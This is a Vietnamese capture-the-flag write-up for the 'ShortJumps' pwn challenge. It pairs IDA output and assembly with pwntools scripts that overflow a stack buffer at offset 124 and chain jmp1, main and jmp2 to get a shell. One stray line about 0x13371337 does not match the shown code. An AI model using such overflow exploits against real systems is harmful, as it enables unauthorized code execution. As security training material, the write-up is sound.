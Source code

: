 # ShortJumps

**chall này ko hiểu sao mà mình dùng ida dịch hàm main ra C không được nhưng mà coi được 2 hàm jmp1 và jmp2**

## ida

```c 
int __cdecl jmp2(int a1, int a2)
{
  int result; // eax
  char command[12]; // [esp+8h] [ebp-10h] BYREF

  strcpy(command, "/bin/sh");
  result = jmp;
  if ( jmp != 1 )
  {
    puts("Don't cheat, hacker!");
    exit(0);
  }
  if ( a1 == 0xCAFEBABE )
  {
    result = a2 - 0x35014542;
    if ( a2 == 0x48385879 )
      return system(command);
  }
  return result;
}

Elf32_Dyn **__cdecl jmp1(int a1)
{
  Elf32_Dyn **result; // eax

  result = &GLOBAL_OFFSET_TABLE_;
  if ( a1 == 0xDEADBEEF )
    ++jmp;
  return result;
}
```

ở đây **jmp2 có shell với điều kiện jmp == 1**, vậy ta cần đi qua jmp1 rồi mới qua jmp2

thôi thì hàm main ko dịch được ta xem tạm asm z:

```asm 
endbr32
lea     ecx, [esp+4]
and     esp, 0FFFFFFF0h
push    dword ptr [ecx-4]
push    ebp
mov     ebp, esp
push    ebx
push    ecx
add     esp, 0FFFFFF80h
call    __x86_get_pc_thunk_bx
add     ebx, (offset _GLOBAL_OFFSET_TABLE_ - $)
mov     [ebp+var_79], 59h ; 'Y'
call    init
sub     esp, 0Ch
lea     eax, (aHiWhatSYourNam - 804C000h)[ebx] ; "Hi, what's your name?"
push    eax             ; s
call    _puts
add     esp, 10h
sub     esp, 0Ch
lea     eax, (asc_804A033 - 804C000h)[ebx] ; "> "
push    eax             ; format
call    _printf
add     esp, 10h
sub     esp, 8
lea     eax, [ebp+var_28]
push    eax
lea     eax, (a31s - 804C000h)[ebx] ; "%31s"
push    eax
call    ___isoc99_scanf
add     esp, 10h
call    _getchar
sub     esp, 0Ch
lea     eax, (aDoYouHaveAnyDr - 804C000h)[ebx] ; "Do you have any dream? [Y/n]"
push    eax             ; s
call    _puts
add     esp, 10h
sub     esp, 0Ch
lea     eax, (asc_804A033 - 804C000h)[ebx] ; "> "
push    eax             ; format
call    _printf
add     esp, 10h
sub     esp, 8
lea     eax, [ebp+var_79]
push    eax
lea     eax, (aC - 804C000h)[ebx] ; "%c"
push    eax
call    ___isoc99_scanf
add     esp, 10h
movzx   eax, [ebp+var_79]
cmp     al, 59h ; 'Y'
jz      short loc_8049433

loc_8049433:
sub     esp, 0Ch
lea     eax, (aTellMeYourDrea - 804C000h)[ebx] ; "Tell me your dream!"
push    eax             ; s
call    _puts
add     esp, 10h
sub     esp, 0Ch
lea     eax, (asc_804A033 - 804C000h)[ebx] ; "> "
push    eax             ; format
call    _printf
add     esp, 10h
sub     esp, 8
lea     eax, [ebp+var_78]
push    eax
lea     eax, (a140s - 804C000h)[ebx] ; "%140s"
push    eax
call    ___isoc99_scanf
add     esp, 10h
call    _getchar
sub     esp, 0Ch
lea     eax, (aWowThatSIntere - 804C000h)[ebx] ; "Wow, that's interesting!"
push    eax             ; s
call    _puts
add     esp, 10h
```

phân tích qua hàm main l**ần nhập đầu cho nhập 31byte không làm gì cả**, **sau đó nhập Y, nếu nhập Y thì nó cho phép nhập 140byte,** thử nhập xem sao:

![image](https://github.com/gookoosss/CTF/assets/128712571/824d4131-8070-43b2-804d-5be20114acdf)


ồ nếu vậy thì c**ó lỗi BOF vs offset là 124**

hmm  nếu vậy thì **ta còn dư 16byte để setup**

**h ta làm ret2win đơn giản bằng script này xem sao:**

## Test

```python 
from pwn import *

p = process('./shortjumps')
exe = ELF('./shortjumps')


gdb.attach(p, gdbscript = '''
b*main+282
c
''')

input()

p.sendlineafter(b'> ', b'giabao')

payload = b'a'*124
payload += p32(exe.sym['jmp1'])
payload += p32(exe.sym['jmp2']) + p32(0xDEADBEEF)
payload += p32(0xCAFEBABE)

p.sendlineafter(b'> ', b'Y')
p.sendlineafter(b'> ', payload)

p.interactive()
```

hmm ko được rồi

![image](https://github.com/gookoosss/CTF/assets/128712571/d1d54e97-aaae-452f-85fb-41eeed1ed6d3)


**đến đây ta cần thêm p32(0x13371337 - 0xf7d01500) nữa , nhưng mà payload của ta đã đủ 140byte rồi**

ta còn 1 cách nữa là **chạy lại hàm main 1 lần nữa, lần 1 setup jmp1, lần 2 setup jmp2**, như thế thì ta có thể thoải mái setup thỏa điều kiện rồi

đến đây thì quá đơn giản rồi, viết script và lấy shell thôi

## script

```python
from pwn import *

p = process('./shortjumps')
exe = ELF('./shortjumps')


gdb.attach(p, gdbscript = '''
b*main+282
c
''')

input()

pop_edi_ebp = 0x08049502

p.sendlineafter(b'> ', b'giabao')

# payload = b'a'*124
# payload += p32(exe.sym['jmp1'])
# payload += p32(exe.sym['jmp2']) + p32(0xDEADBEEF)
# payload += p32(0xCAFEBABE)

payload = b'a'*124
payload += p32(exe.sym['jmp1'])
payload += p32(exe.sym['main']) + p32(0xDEADBEEF)

p.sendlineafter(b'> ', b'Y')
p.sendlineafter(b'> ', payload)

p.sendlineafter(b'> ', b'giabao')

payload = b'a'*124
payload += p32(exe.sym['jmp2'])
payload += p32(0xCAFEBABE) + p32(0xCAFEBABE)
payload += p32(0x48385879)


p.sendlineafter(b'> ', b'Y')
p.sendlineafter(b'> ', payload)

p.interactive()
```

